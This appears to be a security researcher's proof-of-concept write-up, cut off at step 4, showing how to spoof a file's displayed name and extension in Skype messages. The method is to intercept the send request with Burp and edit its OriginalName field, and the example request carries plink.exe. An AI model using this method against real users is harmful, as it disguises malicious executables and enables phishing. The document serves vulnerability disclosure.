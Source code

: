 Using this vulnerability you have the ability to send any user a file with a spoofed name and extension. I found several ways of doing this but I'm only showing one way.

Step 1: Start a conversation with anyone and click 'Add files'

![Add-Files](./add_files.png)

Step 2: Select your malicious file

![Plink](./evil_file.png)

Step 3: Send and intercept with Burp, forward until you see the request below

```
POST /v1/users/ME/conversations/19%REDACTED%40thread.skype/messages?x-ecs-etag= HTTP/1.1
Host: azwus1-client-s.gateway.messenger.live.com
...

{
"clientmessageid": "6937674706420748491",
"composetime": "2021-01-31T20:13:38.249Z",
"content": "<URIObject uri=\"https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED\" url_thumbnail=\"https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED/views/original\" type=\"File.1\" doc_id=\"0-cus-d17-REDACTED\">To view this file, go to: <a href=\"https://login.skype.com/login/sso?go=webclient.xmm&amp;docid=0-cus-d17-REDACTED\">https://login.skype.com/login/sso?go=webclient.xmm&amp;docid=0-cus-d17-REDACTED</a><OriginalName v=\"plink.exe\"></OriginalName><FileSize v=\"311296\"></FileSize></URIObject>",
"messagetype": "RichText/Media_GenericFile",
"contenttype": "text",
"imdisplayname": "mr d0x",
"amsreferences": [
    "0-cus-d17-REDACTED"
    ]
}
```

Step 4: Modify the OriginalName value, including the extension
